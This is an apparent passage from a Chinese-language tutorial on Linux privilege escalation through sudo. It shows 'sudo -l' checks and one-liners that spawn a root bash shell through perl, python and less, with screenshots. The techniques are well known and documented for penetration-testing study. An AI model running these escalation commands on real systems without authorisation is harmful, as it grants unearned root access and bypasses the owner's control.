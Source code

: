 ```bash
sudo -l
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657559989686-5dc2c895-472c-4b8a-b12d-21d6c99ccaff.png#averageHue=%233e285f&clientId=u6ec4ea93-b9b8-4&from=paste&height=135&id=uaf3b23fb&originHeight=135&originWidth=1332&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26196&status=done&style=none&taskId=u86b415e6-6531-474d-a824-1988cb0015c&title=&width=1332)

<a name="HeHaJ"></a>
### 2、Perl提权
<a name="KG315"></a>
#### 1）查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560036942-6f3b69d2-0949-40ba-b84f-629e4cc14d0f.png#averageHue=%232d0a24&clientId=u6ec4ea93-b9b8-4&from=paste&height=136&id=u9bfa4002&originHeight=136&originWidth=473&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22820&status=done&style=none&taskId=u669f50c6-da0b-4bf0-9cd4-384faf3f3ca&title=&width=473)
<a name="gxxnP"></a>
#### 2）提权方法
```bash
sudo perl -e 'exec "/bin/bash";'
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560073494-cf1cfa0b-dd93-4f09-afe9-fdcdbc9435ae.png#averageHue=%235e6da9&clientId=u6ec4ea93-b9b8-4&from=paste&height=79&id=u1565ea22&originHeight=79&originWidth=438&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11462&status=done&style=none&taskId=u8badfa4a-4922-4eb6-8117-b99765d013d&title=&width=438)


<a name="aqtCr"></a>
### 3、Python提权
<a name="wROkV"></a>
#### 1）查看sudo权限
```bash
sudo -l
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560116177-a8bea551-e7c8-4b1c-9f1d-97d2c7327cef.png#averageHue=%232d0a24&clientId=u6ec4ea93-b9b8-4&from=paste&height=140&id=u3040dd66&originHeight=140&originWidth=481&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23239&status=done&style=none&taskId=u75c06b63-2127-43b8-80f3-1f27d11233f&title=&width=481)

<a name="d3JFx"></a>
#### 2）提权方法
```bash
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560179453-0d924909-a56b-4a15-a2d9-9485b18dc03e.png#averageHue=%23535c9b&clientId=u6ec4ea93-b9b8-4&from=paste&height=80&id=ub55d5e50&originHeight=80&originWidth=593&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13766&status=done&style=none&taskId=u0c65725b-253d-40a5-8099-b79967efa66&title=&width=593)

<a name="Tf8jf"></a>
### 4.Less提权
<a name="yNSfW"></a>
#### 1.查看sudo权限
```bash
sudo -l
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560900924-fcbac84c-1042-4108-a866-720619659a76.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=141&id=u582bd56d&originHeight=141&originWidth=971&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26012&status=done&style=none&taskId=ub2d967a4-8996-499a-80b5-65422fbe1ec&title=&width=971)

<a name="sEhzd"></a>
#### 2.提权方法
```bash
sudo less /etc/hosts
```
